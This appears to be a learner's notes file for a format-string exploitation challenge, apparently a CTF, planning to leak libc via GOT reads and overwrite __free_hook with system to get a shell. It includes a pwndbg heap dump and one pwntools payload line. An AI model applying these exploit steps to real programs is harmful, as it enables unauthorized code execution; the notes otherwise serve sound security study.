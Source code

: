 
# to do:

- leak more libc addresses, the common ones, to calculate libc version 
- explore more to discover more and see if libc entries are somewhere on stack
- specifically:
  - elf.got[entry] to leak libc version with %s arbirary read
  - calculate libc base, system, __free_hook
  - use fmtstr_payload to overwrite __free_hook with system
  - go into the function and get shell


# seems like it is because of heap 
- try examining memory of heap with different arguments 
- try directly using %s (treating %s as 1st argument) to see if it works

```
pwndbg> x/32gx 0x55a9d9a0e2a0
0x55a9d9a0e2a0: 0x4141732541414141      0x000055a9c599ff90
0x55a9d9a0e2b0: 0x0000000a20700000      0x0000000000000000
0x55a9d9a0e2c0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e2d0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e2e0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e2f0: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e300: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e310: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e320: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e330: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e340: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e350: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e360: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e370: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e380: 0x0000000000000000      0x0000000000000000
0x55a9d9a0e390: 0x0000000000000000      0x0000000000000000
pwndbg> x/gx 0x000055a9c599ff90
0x55a9c599ff90 <puts@got.plt>:  0x00007f162e693760
```


it is indeed inside heap and can be derefencesd (via pwndbg)
but idk how to automate the process in python (first deference heap with %s,. then go inside and dereference 0x55a9c599ff90, how can this in done in python)


first dereference heap, then dereference the second argument inside the heap
actually i think i do not need the 'A's, because the arguments i put would be the first, scond entry on heap 

fuck my hand fucking hurts


```
p.sendlineafter(b"late enrollment:", b'AAAAAAAA'+p64(puts_entry)+b'-%7$p-%8$p-%9$p')
```

